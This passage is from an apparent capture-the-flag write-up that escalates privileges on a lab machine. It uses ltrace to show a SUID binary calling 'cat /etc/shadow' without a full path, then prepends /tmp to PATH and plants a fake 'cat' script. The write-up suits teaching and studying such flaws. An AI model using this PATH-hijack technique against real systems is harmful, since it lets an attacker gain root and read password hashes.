 ![image-20200729105757325](https://0xdfimages.gitlab.io/img/image-20200729105757325.png)

It did end up exhausting `rockyout.txt` without a match in about 10 minutes.

Continuing on, I’ll look at the binary itself. I could open the binary in `gdb` (as I take the presence of Peda to be a hint), but first I’ll run it with `ltrace` (I’ll use `gdb` in [Beyond Root](#re-backup)). This will show all the library calls made by the binary:

```

mitsos@LazyClown:~$ ltrace ./backup 
__libc_start_main(0x804841d, 1, 0xbffff7d4, 0x8048440 <unfinished ...>
system("cat /etc/shadow"cat: /etc/shadow: Permission denied
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                       = 256
+++ exited (status 0) +++

```

The first thing it does in `main` is call `system("cat /etc/shadow")`. This gets permissions denied because `ltrace` drops permissions on SUID binaries, so it’s not actually running as root, but it would be outside of `ltrace`.

### Path Hijack

The vulnerability here is that `cat` is called without a full path, which means that the shell is looking at each directory in the `$PATH` environment variable for an executable named `cat` until it finds one, and then runs it. By default, `$PATH` is:

```

mitsos@LazyClown:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games

```

But I can change the path to add `/tmp` at the front of the list:

```

mitsos@LazyClown:~$ PATH=/tmp:$PATH
mitsos@LazyClown:~$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games

```

Now `/tmp` will be the first directory checked.

I’ll drop a simple script into `/tmp/cat`. For demonstration, I’ll have it run `id`:

```

#!/bin/sh

id

```
